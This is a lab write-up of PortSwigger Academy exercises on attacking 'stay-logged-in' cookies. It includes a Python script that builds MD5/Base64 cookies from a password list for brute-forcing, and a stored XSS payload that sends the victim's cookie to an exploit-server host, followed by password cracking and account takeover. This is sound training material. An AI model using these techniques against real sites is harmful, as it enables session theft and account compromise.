







## Keeping users logged in

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in".

This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. As possessing this cookie effectively allows you to bypass the entire login process, it is best practice for this cookie to be impractical to guess. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. Some even use the password as part of the cookie. This approach is particularly dangerous if an attacker is able to create their own account because they can study their own cookie and potentially deduce how it is generated. Once they work out the formula, they can try to brute-force other users' cookies to gain access to their accounts.

Some websites assume that if the cookie is encrypted in some way it will not be guessable even if it does use static values. While this may be true if done correctly, naively "encrypting" the cookie using a simple two-way encoding like Base64 offers no protection whatsoever. Even using proper encryption with a one-way hash function is not completely bulletproof. If the attacker is able to easily identify the hashing algorithm, and no salt is used, they can potentially brute-force the cookie by simply hashing their wordlists. This method can be used to bypass login attempt limits if a similar limit isn't applied to cookie guesses.

## Lab: Brute-forcing a stay-logged-in cookie

--> This website is storing the password in the `stay-logged-in` cookie in the encrypted form.

So we have to pass this request to intruder and then brute force the `stay-logged-in` cookie for `carlos` user



--> but first we have to logout because it will redirect us to this page only if we are logged in without checking the cookie.

And to encrypt the passwords according to cookie logic i made one python script:

```py
import hashlib
import base64

passwords = ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]

converted = []
for password in passwords:
	hash_object = hashlib.md5(password.encode())
	md5_hash = hash_object.hexdigest()
	md5_hash = str(md5_hash)
	myCookie = "carlos:"
	myCookie += md5_hash
	convert_b64_bytes = myCookie.encode('ascii')
	base64_bytes = base64.b64encode(convert_b64_bytes)
	base64_string = base64_bytes.decode("ascii")
	base64_string = str(base64_string)

	converted.append(base64_string)

for word in converted:
	print(word)


# sample_string = "GeeksForGeeks is the best"
# sample_string_bytes = sample_string.encode("ascii")

# base64_bytes = base64.b64encode(sample_string_bytes)
# base64_string = base64_bytes.decode("ascii")
```

--> After running the python file i got all the encoded_cookies so now just we have to brute force them!

And after some time i found the correct cookie which gave us `200` status code!



And we solved the lab!



---

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

# Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

--> So first i logged in as `wiener` and then i found that we can comment on any post so i opened one post and commented the stored XSS payload :

```markup
<script>document.location='//exploit-acc81fe51e0eddf3c0598bf601660076.web-security-academy.net/'+document.cookie</script>
```



--> After posting the comment i went to `exploit server` and then went to `access logs` and found the cookie of `carlos`



--> After decoding the cookie from `base64` and `md5` i found the password as `onceuponatime` and i logged in as `carlos` and now we have to delete the account of carlos so click on delete account



--> It will ask for password, click `delete account!`



And we solved the lab!
